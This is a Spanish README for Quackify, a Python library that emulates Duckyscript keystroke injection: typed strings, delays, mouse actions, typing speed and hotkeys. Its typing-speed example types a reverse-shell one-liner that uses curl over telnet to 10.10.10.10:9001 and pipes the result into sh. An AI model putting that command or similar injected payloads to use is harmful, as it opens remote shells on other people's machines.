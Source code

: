 # Quackify
*Quackify es una biblioteca para Python que emula diversas funciones del Duckyscript.*

Entre varias de ellas, encontramos funciones básicas como "string", "rem" y "delay".

Muchas de las funciones se inspiraron en [DuckyPad](https://github.com/dekuNukem/duckyPad).

# Uso

## Funciones

String: La función "string" emula lo que sería un "string" normal en un Duckyscript.

```
STRING Hola Mundo
```

El dispositivo simplemente emulará la entrada de teclado de las letras "H", "o", "l", "a", espacio, "M", "u", "n", "d", "o" en ese orden. Esencialmente, el script simulará que alguien está escribiendo "Hola Mundo" en el teclado de la computadora.

Convertido a python, seria:

```python
from quackify import send

send.string("Hola Mundo")
```

### Rem 

La función "rem" emula lo que sería el comentario en Duckyscript, comúnmente utilizado para proporcionar explicaciones o notas.

```
REM Este es un comentario en un Duckyscript.
```

Convertido a python, seria:

```python
from quackify import rem

rem.add_comment("Este es un comentario en Quackify")
```

### Delay 

La función "delay" emula lo que sería la pausa por un tiempo determinado en un Duckyscript.

```
STRING Hola
DELAY 500
STRING Mundo
```

En este caso, el script primero simula la entrada de teclado "Hola" y luego espera 500 milisegundos (o medio segundo) antes de simular la entrada de teclado "Mundo".

Convertido a python, seria:

```python
from quackify import send, delay

send.string("Hola")
delay.delay(500)
send.string("Mundo")
```

### Interacción con el ratón.

Quackify también incluye funciones para interactuar con el cursor, como clic derecho, clic izquierdo, emulación de clic de rueda del mouse, así como para mover el cursor a coordenadas específicas y para imprimir las coordenadas actuales del cursor.

```python
# mouse_click.right()  =  RMOUSE
# mouse_click.left() = LMOUSE
# mouse_clicl.middle() = MMOUSE
````

Emular click derecho, izquierdo y rueda del mouse:

```python
from quackify import mouse_click

# Click derecho
mouse_click.right()

# Click  izquierdo

mouse_click.left()

# Clickear usando la rueda del mouse

mouse_click.middle()
```

Con Quackify, también puedes emular el movimiento del cursor de manera similar a la función "MOUSE_MOVE" de DuckyPad.

```python
from quackify import mouse_move

mouse_move.move(1344, 17)
```

Con esto, el cursor se moverá a las coordenadas proporcionadas. Además, Quackify incluye la función **"get_pos"**, que nos permitirá visualizar la posición actual del cursor.

```python
from quackify import mouse_move

mouse_move.get_pos()
```

Con esto, se mostrarían las coordenadas x,y del cursor, y no sería necesario agregar un comando print, ya que este ya está integrado en el código.

### Velocidad de escritura

También, la función string incluye una función adicional llamada **"speed"**. Con esta función, podremos configurar la velocidad a la que el script escribirá, como se muestra en el siguiente ejemplo:

```python
from quackify import send

send.speed(1)
send.string("C='curl -Ns telnet://10.10.10.10:9001'; $C </dev/null 2>&1 | sh 2>&1 | $C >/dev/nul")
```

Si se desea ajustar la velocidad de escritura, es necesario **declarar la función "send.speed" antes de llamar la funcion "send.string"**.

Un número mayor, por ejemplo, 1, 2, 3, hará que la escritura sea más lenta. En cambio, si el número es menor, como 0.9, 0.5, 0.4, la escritura será más rápida.

### Hotkeys

Quackify también incorpora la capacidad de simular pulsaciones de teclas especiales, como ctrl, alt, shift, tab, enter, entre otras.

```python
from quackify import hotkeys

hotkeys.hotkey('win+r')
````

Aquí podemos simular la pulsación de teclas, como Windows + R, utilizando una única línea de código.

**Todas las hotkeys disponibles en quackify:**

```
['\t', '\n', '\r', ' ', '!', '"', '#', '$', '%', '&', "'", '(',
')', '*', '+', ',', '-', '.', '/', '0', '1', '2', '3', '4', '5', '6', '7',
'8', '9', ':', ';', '<', '=', '>', '?', '@', '[', '\\', ']', '^', '_', '`',
'a', 'b', 'c', 'd', 'e','f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o',
'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '{', '|', '}', '~',
'accept', 'add', 'alt', 'altleft', 'altright', 'apps', 'backspace',
'browserback', 'browserfavorites', 'browserforward', 'browserhome',
'browserrefresh', 'browsersearch', 'browserstop', 'capslock', 'clear',
'convert', 'ctrl', 'ctrlleft', 'ctrlright', 'decimal', 'del', 'delete',
'divide', 'down', 'end', 'enter', 'esc', 'escape', 'execute', 'f1', 'f10',
'f11', 'f12', 'f13', 'f14', 'f15', 'f16', 'f17', 'f18', 'f19', 'f2', 'f20',
'f21', 'f22', 'f23', 'f24', 'f3', 'f4', 'f5', 'f6', 'f7', 'f8', 'f9',
'final', 'fn', 'hanguel', 'hangul', 'hanja', 'help', 'home', 'insert', 'junja',
'kana', 'kanji', 'launchapp1', 'launchapp2', 'launchmail',
'launchmediaselect', 'left', 'modechange', 'multiply', 'nexttrack',
'nonconvert', 'num0', 'num1', 'num2', 'num3', 'num4', 'num5', 'num6',
'num7', 'num8', 'num9', 'numlock', 'pagedown', 'pageup', 'pause', 'pgdn',
'pgup', 'playpause', 'prevtrack', 'print', 'printscreen', 'prntscrn',
'prtsc', 'prtscr', 'return', 'right', 'scrolllock', 'select', 'separator',
'shift', 'shiftleft', 'shiftright', 'sleep', 'space', 'stop', 'subtract', 'tab',
'up', 'volumedown', 'volumemute', 'volumeup', 'win', 'winleft', 'winright', 'yen',
'command', 'option', 'optionleft', 'optionright']
```
